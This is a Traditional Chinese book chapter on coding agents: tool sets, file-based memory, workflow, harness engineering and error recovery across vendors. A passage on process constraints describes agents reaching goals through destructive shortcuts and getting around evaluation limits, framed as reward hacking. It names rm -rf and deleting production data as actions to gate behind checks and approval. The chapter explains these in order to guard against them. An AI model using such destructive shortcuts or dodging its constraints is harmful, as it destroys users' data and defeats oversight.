Coding Agent 與程式碼生成
前面的章節分別深入了上下文工程（第二、三章）和工具設計（第四章）。本章將這些構件組合在一起，回答一個核心問題：一個能處理任意任務的通用 Agent，它的架構長什麼樣？
答案是：以開放任務為目標的通用 Agent，其核心是 Coding Agent（能自主編寫、修改和執行程式碼的 Agent）加上檔案系統——Agent 用來儲存程式碼、資料、記憶和中間結果的工作空間，類似於程式設計師在電腦上用資料夾管理專案的方式。從 Manus 到 OpenClaw，成功的開放任務型通用 Agent 都遵循這一範式。
為什麼程式碼生成能擔此重任？因為它不只是一個工具，而是一種元能力——能在執行時動態創造新的工具與能力。本章後半部會完整展開這個概念，以及它適用的六個方向。
程式碼對 Agent 的價值體現在兩個層面。思考上，形式化程式碼讓思考高度嚴謹——「年齡大於 18 且已實名認證」用自然語言描述可能有多種理解，寫成程式碼就毫無歧義。表達上，一段能跑通的程式碼本身就是邏輯自洽的證明，執行結果提供客觀的對錯標準。
本章先從 Coding Agent 的基礎能力和通用 Agent 架構（OpenClaw）講起，然後展示程式碼生成在各類場景中的應用——從數學思考、內容創作到系統級的元能力。
Coding Agent
Coding 是 Agent 的基礎能力
程式碼生成不是少數專門化 Agent 的專利，而是每個通用 Agent 都該具備的基礎能力。在當前 SOTA 模型的加持下，具備基本 coding 能力並不需要複雜的架構。
考慮一個典型任務：「整理倉庫中所有遺留的 TODO 註釋，按優先順序分類並生成 issue」。完成這件事需要瀏覽目錄結構（ls/glob）、讀取程式碼（read）、修改檔案（edit/write）、執行命令（bash）、查詢模式（grep/search）。這五類操作覆蓋了幾乎所有 Coding Agent 的核心動作。
一個基礎的 Coding Agent 只需配備以下七個處理器核工具：
- Code Interpreter（程式碼直譯器）：提供隔離的沙盒環境（sandbox，即與主系統隔離的安全執行空間，程式碼在其中執行即使出錯也不會影響宿主機），安全執行 Python 程式碼
- Bash Shell（命令列終端機）：在終端機中執行命令，如執行測試用例、處理特殊格式檔案
- 讀檔案工具：讀取程式碼、配置、文件、日誌等
- 寫檔案工具：建立新檔案或完全重寫現有檔案
- 編輯檔案工具：對現有檔案進行局部修改，是程式碼維護和迭代的核心操作
- 搜尋檔名工具（Glob）：透過模式匹配快速定位檔案系統中的目標檔案，例如用
**/*.py找出專案中所有 Python 檔案 - 搜尋檔案內容工具（Grep）：在檔案內容中搜尋特定的文字模式，例如搜尋所有呼叫了某個函式的程式碼行
這七個工具構成了一個完整但極簡的工具箱，幾乎任何 Agent 系統都可以低成本地整合。
注意，這個工具集是 Coding Agent 特有的基礎配置，不同於第四章按呼叫方向和作用性質劃分的五類通用工具分類（感知／執行／協作／事件觸發／使用者溝通）。Read、Write、Edit、Grep、Glob、Bash 與程式碼直譯器在那套分類裡都屬於執行或感知工具；Coding Agent 與子 Agent 的協作由框架的編排邏輯管理，而非透過專用的協作工具。
用一個最簡單的任務來看這七個工具是怎麼配合的。假設使用者說「幫我把專案裡所有 TODO 註釋整理成一個清單」：
Agent（思考）：需要找到所有包含 TODO 的程式碼行。
Agent → Grep("TODO", glob="**/*.py") # 搜尋檔案內容
工具返回：
src/api.py:42: # TODO: add rate limiting
src/db.py:15: # TODO: migrate to PostgreSQL
tests/test_api.py:8: # TODO: add edge case tests
Agent（思考）：找到了 3 個 TODO，整理成清單寫入檔案。
Agent → Write("TODO_LIST.md", content="...") # 寫檔案
工具返回：檔案已建立
Agent：已整理完畢，共發現 3 個 TODO 項，清單儲存在 TODO_LIST.md。整個過程只用了 Grep（搜尋內容）和 Write（寫檔案）兩個工具。如果任務更複雜——比如「統計每個模組的 TODO 數量並畫個柱狀圖」——Agent 還會用 Code Interpreter 執行 Python 程式碼來做統計和繪圖。七個工具雖然簡單，組合起來就能完成非常多樣化的任務。
讀者可能會問，為什麼是七個工具，不是六個工具？事實上，只要一個 Bash Shell 工具就足夠了。OpenAI Codex 就只提供 Bash Shell 一個工具，用這一個工具完成所有檔案讀寫、查詢操作。但其他一些 Agent 仍然保留單獨的檔案讀寫工具。本書的七個工具是為了方便讀者理解 Coding Agent 所需的基本能力。
為什麼每個通用 Agent 都應該具備 coding 能力？因為程式碼生成不只是寫程式——它是一種通用的問題解決手段。遇到數學推理，可以寫段程式碼交給求解器算出精確答案；需要固化業務規則，程式碼比自然語言描述精確得多；缺少某個工具，可以臨時寫一個；資料格式變了，動態生成解析邏輯。本章後續會逐一展開這些場景。一個具備基本 coding 能力的 Agent，即使工具箱中只有上述七個簡單工具，也能在遇到新需求時動態擴展自己的能力邊界。
案例：從 Manus 到 OpenClaw——通用 Agent 的 Coding 核心
以 Manus 和 OpenClaw 為代表的通用 Agent 產品，將 Deep Research、Computer Use 和 Coding 三大能力整合進同一個系統。那麼，為什麼本章開頭會說 Coding Agent 是核心，而不是另外兩者之一？
因為幾乎所有高效率的內容生成，最後都會歸結到程式碼。PPT 與 Word 文件本質上就是 OOXML（Office Open XML，Microsoft 的辦公文件開放標準）格式的程式碼。PDF 報告可以透過 Markdown、HTML 或 LaTeX 生成；Python 指令碼可以進行資料分析與視覺化；甚至 GUI 作業中成功的瀏覽器操作序列，也可以整理成可重複使用的程式碼（見第 9 章）。Deep Research 的搜尋與資訊綜合，也可以透過程式碼驅動的 Web 請求與解析來實作。Computer Use 雖然更通用，但對於等效操作而言，直接使用程式碼或 API 呼叫通常更便宜、更快，也更可靠。程式碼生成是最高效、成本最低、可重複使用性最強的能力基礎。

用一個具體的執行流來理解這個架構。假設使用者要求 「Help me analyze last quarter's sales data and create a summary report」：
- 讀記憶：Agent 讀取
MEMORY.md，發現使用者偏好 PDF 格式的報告，資料來源是 Google Sheets - 調工具：透過網路搜尋模組獲取 Google Sheets API 的使用方法，透過程式碼執行下載資料
- 寫程式碼：用 Python 生成資料分析指令碼（pandas 聚合、matplotlib 視覺化）
- 生成產物：將分析結果寫入
report.pdf，圖表寫入charts/目錄 - 更新記憶：在
MEMORY.md中記錄 「User's sales data is in Google Sheets, ID: xxx」，下次無需再問
整個過程中，檔案系統是資訊流轉的樞紐——記憶從檔案讀取，產物寫入檔案，經驗也儲存為檔案。
檔案系統作為 Agent 的中樞。在 OpenClaw 的設計中，檔案系統遠不止是資料儲存——它是 Agent 記憶、知識和能力的中樞。Agent 的長期記憶儲存在 MEMORY.md（高層級事實和使用者偏好）和按日期歸檔的 Markdown 日誌中。選擇 Markdown 而非向量資料庫，這個決定看似反直覺，實際上極其有效：使用者可以直接開啟檔案閱讀和修改 Agent 的記憶（如果 Agent 記錯了某件事，直接刪除那一行即可），Markdown 天然保留時間順序避免語義檢索中的時間混淆，而且可透過 Git 進行版本控制和回滾。
更關鍵的是，Agent 擁有寫檔案的能力，這意味著它具備了修改自身外部產物的技術條件。當 Agent 首次執行某個任務並發現了之前不知道的關鍵資訊（例如給某銀行打電話時，發現對方要求提供開戶行地址才能驗證身份），它可以先把發現寫入記錄。記錄何時足以成為可靠知識、指令或程式，仍需結合更多軌跡與結果驗證；這是第九章將討論的持續進化問題。
適用邊界：哪些 Agent 以 Coding 作為核心架構。 「Coding Agent 是通用 Agent 的核心」這個結論，主要適用於以開放式任務為目標的通用 Agent——例如深度調研、內容生成、資料處理這些任務邊界不確定、產物形式多樣的場景。在這些場景裡，無法事先列舉出所有需要的工具；程式碼生成作為元能力，提供了以最低成本動態擴展能力邊界的路徑，因此它是架構核心。相較之下，垂直領域的客服 Agent 會運作在相對封閉的任務空間中，核心架構圍繞固定的業務流程、領域工具與對話策略建構；在那裡，程式碼只是工具箱中的一件工具，而不是架構中樞。不過，即使在後者，coding 仍然是重要的基礎能力：精確計算、資料處理與規則驗證都依賴它。
Coding Agent 的整體流程

專案文件化。
Coding Agent 的工作始於對專案的系統性理解。當 Agent 首次接觸一個程式碼倉庫時，首要任務不是馬上動手改程式碼，而是先建立對整個專案的認知框架——就像新入職的工程師，第一天不會直接提交程式碼，而是先熟悉專案結構。Agent 會首先檢查專案是否存在文件——README、架構設計文件、開發者指南。
如果關鍵文件缺失，Agent 不應在盲目狀態下開始工作，而應主動承擔文件化的責任——透過系統性地閱讀程式碼庫，識別主要模組、核心抽象、元件間依賴關係，生成包含架構概覽、目錄結構、測試執行指南的初始文件。這份文件既為 Agent 後續工作提供藍圖，也為其他開發者提供了入口點。這體現了一個關鍵原則：知識的顯式化是高效協作的前提。
專案文件化如今有了一種 Agent 專用的形態：專案指令檔案。CLAUDE.md、AGENTS.md、.cursorrules 等檔案已成為業界事實標準——它們在每次會話開始時被自動注入上下文，相當於專案級的系統提示詞。與面向人類讀者的 README 不同，指令檔案承載的是面向 Agent 的行為約定：建構與測試命令（「用 pnpm test 而不是 npm test」）、程式碼風格（「停用 any 型別」）、明確的禁區（「不要改動 migrations/ 目錄」）。這與 OpenClaw 的 SOUL.md（定義 Agent 的身份與行為規則）、MEMORY.md（沉澱跨會話經驗）是同一思路在不同層面的應用：SOUL.md 約定「Agent 是誰」，專案指令檔案約定「在這個專案裡該怎麼幹活」。從第二章上下文工程的角度看，指令檔案還是最經濟的穩定字首——內容不隨任務變化，天然對 KV Cache 友好；它也是「知識必須存在於程式碼庫本身」原則最直接的落地。
這也正是第二章「對遠端工作友好的團隊往往也對 AI Agent 友好」那條判斷在程式碼庫層面的落點：決策記錄在文件裡，上下文寫在 issue 和 PR 描述裡，內部經驗沉澱在開發者指南裡，Agent 才讀得到。由此可以給出一個評估團隊「AI-ready」程度的簡單指標：一個遠端新人只靠程式碼倉庫和文件，能不能獨立開展工作。
任務理解與需求澄清。
對於邊界清晰、影響範圍有限的簡單需求——例如修正一個已知的 bug、調整某個函式的參數——Agent 可直接進入實現階段。然而，軟體開發中的大多數任務並非如此簡單。
對於複雜需求，Agent 必須更加謹慎和有條理。複雜性可能源於多個維度：需求本身的模糊性（使用者知道想要什麼但無法精確表達）、實現路徑的多樣性（多種技術方案可選，各有權衡）、或影響範圍的廣泛性（需修改多個模組，可能破壞現有功能）。Agent 應透過探索性調研來澄清邊界，必要時主動與使用者對話。例如，當使用者要求「最佳化系統效能」時，Agent 需要先搞清楚：最佳化的具體目標是什麼（降低響應時間、減少記憶體佔用還是提高吞吐量）、可接受的權衡是什麼（是否允許增加程式碼複雜度）、以及當前瓶頸在哪裡。在需求模糊的狀態下就開始編碼，往往導致大量返工。
編寫設計文件。
設計文件是將抽象需求轉化為具體實現計畫的橋樑，應回答核心問題：修改哪些模組及原因，採用什麼方案及其相對優勢，需引入哪些新依賴，預期對系統的影響。編寫設計文件本身就是深度思考——它迫使 Agent 在投入大量編碼前先在概念層面驗證方案可行。設計文件為人類提供了高效的介入點——審查簡潔的設計文件比審查數百行程式碼容易得多。Agent 完成設計文件後應提交給使用者審查，等待批准後再繼續。
程式碼實現與測試。
獲得設計批准後，Agent 遵循專案程式碼規範進行實現，複用現有抽象和工具，必要時進行適度重構以保持程式碼庫健康。
實現完成後立即進入測試驅動的品質保障環節——為新增或修改的功能編寫測試用例，覆蓋正常路徑、邊界條件和異常情況。編寫完測試後執行測試套件。如果測試失敗，Agent 不應簡單地向使用者報告失敗，而應分析原因、定位問題、修改程式碼直到所有測試透過。這個 「測試～修復」 迴圈可能需要多次迭代，正是這種自我糾錯能力將 Coding Agent 從程式碼生成器提升為可靠的工程助手。反過來說，Coding Agent 最常見的偷懶方式，就是跳過這一環節——寫完程式碼不跑測試就報告「任務完成」。把「測試透過」而非「程式碼寫完」定義為完成標準，正是 Loop 工程「由驗證判定何時可以停」原則在編碼場景的落地。
即使所有測試透過，Agent 的工作也還沒結束。接下來是程式碼審查階段：Agent 對自己生成的程式碼進行批判性審視——可讀性如何，是否有足夠註釋；是否存在潛在的效能問題或安全漏洞；是否遵循專案的程式碼風格和最佳實踐。這個自我審查可透過閱讀程式碼、執行 lint 工具或呼叫專門的程式碼審查子 Agent（Sub-Agent）來實現。如果審查發現問題，應回到修改階段完善，而不是將有缺陷的程式碼交付給使用者。
文件同步與交付。
如果程式碼修改涉及架構層面的變化——例如引入新模組、改變模組間依賴關係、修改核心抽象語義——Agent 需相應更新架構文件。過時的文件比沒有文件更糟糕，因為它會誤導未來的開發者。透過在每次重要修改後自動更新文件，Agent 幫助維護了專案知識庫的完整性和時效性。
這套流程體現了軟體工程的核心原則：計畫先於行動，驗證貫穿始終，文件與程式碼共同演化。
請注意，上述流程是一套建議的工程工作流。實際的 Coding Agent（例如 Claude Code 和 Codex）會視需要對其做裁剪：簡單的 bug 修復任務會跳過產生設計文件，而只有複雜、影響範圍廣的任務才會完整走完每個階段。
不同模型裁剪這套工作流的方式並不相同。有些 Coding 模型會在第一次修改前，廣泛閱讀儲存庫結構、實作、呼叫端與測試；另一些則只檢視少數最可能相關的檔案，先做出早期修補，再把編譯器與測試回饋視為調查的一部分。這種決定何時停止蒐集資訊、開始行動的門檻，可以在更換 harness 後仍然跟隨模型，也可以在同一個 harness 內隨模型替換而改變。因此，它首先是一種模型學到的行為，而不只是 Coding 產品的介面風格。harness 中的提示詞、工具與預算仍然可以放大或抑制它，但不一定是它的來源。第 7 章會在固定的 harness 中測量這種差異；第 8 章則會說明後訓練如何可能把這樣的政策寫入參數。
Harness 工程在 Coding Agent 中的實踐
第一章引入了 Harness 工程的概念和 Agent = Model + Harness 的公式。這裡的 Harness 包含了核心公式中的上下文和工具，以及約束、驗證和糾正機制——五者共同構成了第一章定義的 Harness。Coding Agent 大概是 Harness 工程收益最大的領域——程式碼編寫是所有 Agent 任務中可驗證性最高的一類，約束、驗證和糾正都有現成的基礎設施可以依託。本節聚焦於 Coding Agent 場景下的具體實踐。
能不能穩定執行，往往不取決於用了多強的模型，而取決於圍繞 Agent 搭建的基礎設施有多紮實。第一章將 Harness 分為兩個層面——上下文與工具（讓 Agent 能做事）和約束、驗證與糾正（讓 Agent 不做錯事）。在 Coding Agent 這個場景下，它們落地為具體的工程元件：
- 驗收基線：什麼算做完了——測試套件、CI 管道（持續整合流水線，程式碼提交後自動執行的一系列檢查）、程式碼審查標準
- 執行邊界：Agent 能碰什麼不能碰什麼——模組邊界、依賴規則、權限控制
- 回饋訊號：自動化的對錯判斷——Linter（程式碼規範檢查工具，能自動發現格式錯誤和潛在問題）輸出、測試結果、型別檢查錯誤
- 回退手段：出了問題怎麼恢復——Git 版本控制、沙盒隔離、快照回滾
Coding Agent 為什麼特別適合 Harness 工程。
可以用任務清晰度和驗證自動化程度兩個維度，將任務分成四種狀態。目標明確且結果可自動驗證，是最適合 Agent 發揮的區域；目標清楚但驗收還得靠人盯，吞吐量的天花板就是人的審查速度；有自動化回饋但目標模糊，系統會高效地往錯誤方向跑；兩者都缺，Agent 基本派不上用場。表 5-1 展示了這四種狀態，Harness 的目標就是把儘可能多的任務推向「目標明確 + 驗證自動化」這個象限。
表 5-1 任務清晰度與驗證自動化程度的四象限
| 結果可自動驗證 | 結果需人工驗證 | |
|---|---|---|
| 目標明確 | 最佳區域：修復有測試用例的 bug | 吞吐量受限：程式碼重構需人工審查 |
| 目標模糊 | 高效地跑偏：用 linter 最佳化「程式碼品質」 | 難以啟動：「讓 UI 更好看」 |
程式碼編寫天然處於這個象限的核心——測試套件提供明確的驗收標準，Linter 和型別檢查器提供即時的自動化驗證，Git 提供完美的版本控制和回退能力。這就解釋了為什麼 Coding Agent 是當前所有 Agent 型別中成熟度最高的：不是因為程式碼生成模型特別強，而是因為軟體工程幾十年積累的基礎設施天然構成了一套強大的 Harness。
業界實踐。
三個案例的 Harness 實踐印證了上述原則：
- 大規模程式碼遷移案例（來自一家大型科技公司公開分享的大規模程式碼遷移實踐）：關鍵不在模型強，而在 Harness 做對了三件事——知識必須存在於程式碼庫本身（Agent 看不到的等於不存在）、約束編碼進 Linter 和 CI 而非寫在文件裡、驗證和糾正全鏈路自動化。
- LangChain：僅透過最佳化 Harness（系統提示詞、工具中介軟體、自驗證迴圈）就顯著提升了基準任務表現。尤其「用 Agent 分析失敗軌跡來改進 Harness」的方法，使 Harness 工程從人工經驗驅動轉向資料驅動。
- Anthropic：將長任務拆分為兩個角色——初始化 Agent 負責把大任務分解為任務清單，執行 Agent 負責逐步推進並把中間成果（如已完成的程式碼檔案、更新後的任務清單等）留給下一輪繼續使用。這種分工解決了長時執行 Agent「一次想做太多」或「過早聲稱完成」的問題。
從 Coding Agent 到通用 Harness 設計原則。
Coding Agent 的 Harness 實踐為所有 Agent 系統提供了可遷移的設計原則：
- 約束優先於指導：能用程式碼強制的規則就不要用文件建議。Linter 規則、型別約束、CI 檢查的價值遠超系統提示詞中「請遵循……」式的指導——前者是「做不了」，後者只是「建議別做」。
- 驗證要自動化：人工審查是不可擴展的瓶頸。測試套件、程式碼品質檢查、行為監控——這些基礎設施的投入回報遠高於增加人力。
- 回饋越快越好，越結構化越好：錯誤資訊越詳細、越接近錯誤發生的時刻，Agent 的糾正效率越高。第二章的 Agent 狀態列技術（詳細錯誤資訊、工具呼叫計數器）正是這一原則的體現。
- 回退要可靠：Agent 在安全網內操作才能大膽試錯。Git 分支、沙盒環境、快照機制確保任何錯誤都可逆。
約束的另一層目的：防止過程性錯誤。 驗收基線管的是結果對不對，執行邊界管的是過程——即使結果正確，用錯誤的方法達成也不行。修復資料庫故障時直接把庫刪了重建，「修復」確實生效，但資料沒了；修復編譯錯誤時把程式碼全刪重寫，編譯確實透過，但實現沒了。這類破壞性捷徑總是存在：即使把限制寫進最終評估指標，Agent 也常能找到繞過去的辦法——這正是第八章討論的 reward hacking 在 Agent 任務中的日常形態。因此生產級 Harness 要對 rm -rf、刪除生產資料、覆蓋未讀檔案這類危險動作設定專門的檢查與審批（本章安全一節的語義解析、第四章的 Sidecar 複核），約束的是動作而非僅僅是結果。第八章的 RLVP（驗證路徑懲罰，「獎勵結果、懲罰路徑」）從訓練側回答同一個問題：在最終結果獎勵之外，對過程中可驗證的違規動作施加懲罰，把「不用破壞性手段」內化為模型的工程常識。對已有模型，Harness 護欄是外部約束；對可訓練模型，過程懲罰是內部內化——兩者目標一致。
工具編排：故障邊界控制。成熟的 Coding Agent 支援並行工具呼叫，Harness 視角下的獨特問題是故障如何傳播：一個工具失敗時，哪些呼叫應當中止、哪些應當繼續？原則是故障只在同一批並行呼叫內傳播，不上升到父級操作——比如同時讀取三個檔案，其中一個找不到，應該只報告這一個失敗，而不是把另外兩個也取消掉，更不是讓整個任務中止。這種精細的故障邊界控制避免了「一個命令失敗導致整個任務中止」的脆弱模式。並行呼叫、流式解析與級聯中止的具體機制見本章「實現技巧」一節。
故障與錯誤恢復
上一節給出了 Harness 工程的原則與元件，本節深入其中最能拉開工程差距的一塊——故障與錯誤恢復。第一章的消融實驗已經展示過問題的嚴重性：僅僅缺失一條工具結果回饋，就足以讓 Agent 陷入無限迴圈；而真實生產環境中的故障遠比實驗裡多樣。本節系統地回答三個問題：生產級 Harness 會遇到哪些故障？如何偵測與恢復？又在什麼時候必須終止[1]？
故障分類學：四層故障。 系統應對的第一步是分類。按故障發生的位置，可以分為四層：
- API 層：限流（HTTP 429）、服務過載、請求超時、連線中斷、輸出觸頂被截斷。這類故障與任務內容無關，是基礎設施的噪聲。
- 工具層：幻覺呼叫（呼叫了不存在的工具）、參數畸形（不符合工具的輸入約束）、執行拋異常，以及最危險的一種——工具反覆返回同一個錯誤，而模型不加改變地反覆重試。
- 上下文層：上下文視窗溢位、壓縮失敗、軌跡結構損壞（如工具呼叫缺少配對的結果訊息）。
- 控制流層：死迴圈（反覆執行相同操作卻毫無進展）與死亡螺旋（錯誤觸發的恢復邏輯自身又呼叫 LLM、再次出錯、連鎖反應）。
偵測：先分類，再計數。 捕獲故障後的第一個判斷不是「要不要重試」，而是「值不值得重試」。可重試的錯誤（限流、過載、網路抖動）重試才有意義；不可重試的錯誤（參數不合法、權限不足、工具不存在）原樣重試多少次都是同樣的結果，必須改變輸入或策略。生產級 Harness 維護一張錯誤到恢復策略的對映表，而不是籠統地「出錯就重試」。
單次錯誤之外，還要偵測模式。一是重複呼叫指紋：對「工具名 + 參數」計算指紋，相同指紋反覆出現就是無進展迴圈的明確訊號——第一章消融實驗中 Agent 反覆呼叫同一工具，正是這種模式。二是連續失敗計數：每條恢復路徑維護獨立的計數器，為後文的熔斷提供依據。
還有一類故障不表現為錯誤，需要專門的活性與完整性監控。流式連線最危險的失敗模式不是斷開（這會立即報錯），而是靜默卡死——連線建立成功但資料流停止，像水管通著但不出水；SDK 的超時機制往往只覆蓋初始連線而非傳輸過程，因此生產級 Agent 需要獨立的閒置看門狗（watchdog timer，超過設定時間沒有新輸出就判定為卡死），超時後主動殺死掛起的流並觸發重試。可推廣為一條原則：每個長連線都需要活性訊號，而非僅依賴連線超時。完整性監控則針對軌跡結構：發現工具呼叫缺少配對的結果訊息時，系統會在注入上下文前自動修復配對關係，而不是把結構異常拋給模型或使用者。一個值得注意的工程細節是，部分生產級 Agent 同時執行產品模式和訓練資料收集模式——產品模式下可以用佔位符修補缺失的訊息，訓練模式下則拒絕修復，因為合成佔位符會汙染訓練資料。「產品模式寬容、訓練模式嚴格」的雙重標準，體現了 Harness 與模型訓練的深度耦合。
恢復：分級升級，逐級透明。 恢復手段按對使用者透明的程度分級，能用低階別解決就不升級：
- 靜默重試。可重試錯誤的預設動作。兩個細節決定成敗：指數退避疊加隨機抖動，避免大量用戶端同步重試造成二次擁塞，並尊重服務端返回的等待時長提示；區分前臺與後臺呼叫——主迴圈的請求失敗要重試，標題生成、輸入建議這類輔助性後臺呼叫失敗則直接放棄，否則後臺重試會擠佔主鏈路的配額，形成「重試放大」。
- 降級與接續。重試無效時，改變請求本身再試。以輸出觸頂（生成到一半被長度限制截斷）為例：先靜默提升輸出上限重發，仍不夠再在訊息末尾追加元指令、讓模型從中斷點接續生成。主模型持續過載時降級到備用模型（需先剝離舊模型私有的格式塊，否則新模型無法解析歷史訊息）；高成本模式被限流時暫時回落到標準模式。
- 暴露給使用者。所有自動手段用盡後才呈現錯誤，並附上已經嘗試過的恢復動作。
工具層錯誤走另一條路：不終止會話，把錯誤變成模型的輸入。幻覺呼叫會收到「工具不存在」的結構化錯誤結果；參數校驗失敗會收到附帶輸入約束提示的錯誤；畸形參數（本該是物件卻輸出了字串）在執行前先經過程式化修復。這些錯誤以普通工具結果的身份進入上下文，由模型在下一輪自行糾正——這正是前文「回饋越結構化越好」原則的應用：喂回的錯誤越具體，模型自我糾正的成功率越高。
這一節的核心原則是：錯誤處理的邊界不是單次請求，而是整個恢復迴圈。在確認無法恢復之前，中間錯誤不應暴露給消費者——無論是使用者還是訂閱事件的下游系統：恢復期間扣留錯誤訊息，恢復成功則消費者毫無感知，全部失敗才一併釋放。這正是第一章「在確認無法恢復之前，不暴露中間態」這一糾正原則的工程化。
接管：把沒跑完的軌跡交給另一家模型。 主模型持續不可用時，需要換一家把這條軌跡接著跑完。真正的障礙不是介面位址不同，而是軌跡裡有一部分東西只屬於原廠商。工具呼叫與工具結果各家結構不同但語意一致，重新渲染即可；難辦的是模型的思考。思考通常由兩部分構成，一部分是可讀的文字，另一部分是廠商附在其上的憑證，用來證明這段思考確實出自它自己。文字換一家模型仍然讀得懂，憑證換一家就失效——跨廠商接管能帶走的是文字，帶不走的是憑證。
各家對憑證的要求並不一致。寬鬆的一端根本不做校驗，嚴格的一端則拒絕一切不由自己簽發的憑證；憑證也未必附在思考上，還可能附在工具呼叫上。於是「把思考刪乾淨就安全了」這條看似穩妥的策略，在某些廠商那裡反而通不過。接管方案只能按最嚴格的一端來設計，並為滿足不了要求的情形準備退路：把歷史工具呼叫改寫成文字敘述，模型不再把它當作真正呼叫過的工具，但至少能接著往下跑。
由此可以得到一條設計原則：軌跡不該按任何一家的介面格式儲存，而應儲存為一份中立格式。每段思考拆成可移植的文字與不可移植的憑證兩部分，工具呼叫只記錄名稱與參數，識別碼在渲染成具體請求時按目標廠商重新產生。切換時憑證一律丟棄，文字以普通內容的身份帶入，而不是塞回目標廠商放思考的位置。廠商返回的思考摘要本就是為這種場合準備的可移植副本，保留即可，不必另外呼叫模型再壓縮一遍。中立軌跡的價值也不限於故障切換：第七章的評估重放、第八章的訓練樣本建構、第九章的經驗提取，依賴的都是同一份產物。
實驗 5-1 ★★★：跨廠商的軌跡接管
實驗目標：驗證一份中立的軌跡格式能否讓跑到一半的 Agent 軌跡換一家模型接著跑完，並量化「原樣直傳」與「一刀切剝光」兩種做法的代價。
技術方案：任務需要多輪工具呼叫，跑到中途對當前廠商注入連續的限流與過載回應，熔斷後切換到另一家繼續。軌跡按中立格式儲存，思考分為可移植的文字與不可移植的憑證兩部分，工具呼叫只記錄名稱與參數。三種做法對照：直傳把原廠商回傳的訊息原樣搬進新廠商的結構；剝離刪掉全部思考與憑證；中立丟棄憑證，把文字或廠商給出的思考摘要以普通內容的身份帶入，識別碼按目標廠商重新產生，遇到強制要求憑證的接收端則把歷史呼叫改寫為文字敘述。選三家線上格式互不相同的廠商，兩兩切換。
驗收標準：切換後的首個請求都要留下原始回應，直傳的失敗必須是廠商真實回傳的錯誤，不得以模擬錯誤代替。要求中立做法在全部廠商組合上都不出現介面錯誤，另外兩種在哪些組合上失敗、報什麼錯，如實記錄。三者對比任務完成率、切換後重複呼叫同一工具的次數（按「工具名 + 參數」指紋計），以及切換後到完成所需的額外輪數與 token。若中立做法在重複呼叫上並未優於剝離，同樣如實記錄。
實驗 5-2 ★★：輸出到一半斷掉之後的接續
實驗目標：比較「整輪重發」與「以半截輸出為前綴續寫」兩種恢復方式在成本、正確性與副作用上的差異。
技術方案：在串流回應上取三個斷點——思考中途、正文中途、工具呼叫參數中途——切斷連線。三種恢復方式：丟棄半截整輪重發；把半截內容作為末尾的 assistant 訊息要求模型接著寫（有的廠商原生支援，有的要求顯式標註這是一條待續寫的訊息，沒有這條介面的則退回下一種）；追加一條元指令說明從斷點繼續。半截的工具呼叫無法以原生結構回傳，需先轉成文字再讓模型補完，拼接後重新解析校驗。若半截輸出裡已有工具因串流提前執行，續寫前按呼叫指紋去重，避免重複副作用。
驗收標準：三類斷點各重複若干次，報告每種方式的恢復成功率、相對整輪重發節省的輸出 token、補完後參數的合法率與語意正確率（拼接處容易多出空白或重複字元，合法不等於正確），以及重複副作用次數。同時記錄哪些斷點在某些廠商上無法複現，以及降級路徑是否可用。
終止：每條恢復路徑都要有上限。 恢復機制本身也可能失效，因此每條恢復路徑都必須有明確的熔斷上限：上下文壓縮連續失敗若干次就放棄壓縮，權限分類連續失敗就回退到人工詢問，輸出接續最多嘗試固定輪數。閾值從哪來？答案是產線資料而非拍腦袋。以 Claude Code 的壓縮熔斷為例，「連續 3 次」的閾值來自真實會話統計——曾有一個會話在這條恢復路徑上連續失敗三千餘次，僅這類無效重試每天就在全球浪費約 25 萬次 API 呼叫；逾千個會話出現過 50 次以上的連續失敗。3 次正是「絕大多數故障在此之前已恢復」與「繼續重試基本無望」之間的經驗拐點。
